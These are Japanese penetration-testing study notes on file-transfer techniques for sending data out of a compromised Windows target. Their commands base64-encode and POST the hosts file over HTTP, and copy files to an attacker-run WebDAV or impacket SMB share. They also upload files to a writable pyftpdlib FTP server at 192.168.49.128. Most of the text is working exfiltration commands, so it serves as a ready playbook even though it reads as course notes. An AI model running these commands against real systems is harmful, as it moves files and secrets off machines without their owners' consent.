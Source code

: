 ##### ターゲット側
```powershell-session
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

```powershell-session
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

#### SMBアップロード
- 以前、企業は通常、`HTTP`（TCP/80）および`HTTPS`（TCP/443）プロトコルを使用してアウトバウンドトラフィックを許可することについて議論した。
	- 一般的に、企業はSMBプロトコル（TCP/445）を内部ネットワークから外すことを許可しない
		- なぜなら、これは潜在的な攻撃に開放される可能性があるから
	- 代替
		- `WebDav`でHTTP上でSMBを実行すること
			- `WebDAV`[（RFC 4918）](https://datatracker.ietf.org/doc/html/rfc4918)は、WebブラウザとWebサーバーが相互に通信するために使用するインターネットプロトコルであるHTTPの拡張
		- `WebDAV`はHTTPSも使用できる
##### 攻撃者側
wsgidavとcherootの2つをインストールする必要ある
```shell-session
sudo pip3 install wsgidav cheroot
```

```shell-session
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
##### ターゲット側
Webdav シェアへの接続
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```
- `DavWWWRoot`は、Windows Shellによって認識される特別なキーワード
- WebDAVサーバーにはそのようなフォルダは存在しない
- DavWWWRoot キーワードは、WebDAV サーバーのルートに接続している WebDAV 要求を処理する Mini-Redirector ドライバーに伝えます。
- サーバーに接続するときにサーバーに存在するフォルダを指定すると、このキーワードの使用を避けることができる

#### LinuxでSMBサーバーを建てる
##### ターゲット側
攻撃者がsmbを立てて、ターゲットのWindowsは、攻撃者に送る
```cmd
C:\> move <送りたいファイル名> \\10.10.15.16\CompData
        1 file(s) moved.
```
##### 攻撃者側
```sh
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData $(pwd)
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData <pwdの結果>
```


#### FTPアップロード
##### 攻撃者側
- FTPを使用してファイルをアップロードすることは、ファイルのダウンロードと非常によく似ている
- PowerShell または FTP クライアントを使用して操作を完了できる
- Python モジュール pyftpdlib を使用して FTP サーバーを開始する前に、クライアントが攻撃ホストにファイルをアップロードできるようにするオプション --write を指定する必要がある
```shell
sudo python3 -m pyftpdlib --port 21 --write
```
##### ターゲット側
それでは、PowerShellのアップロード機能を使用して、FTPサーバーにファイルをアップロードする
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```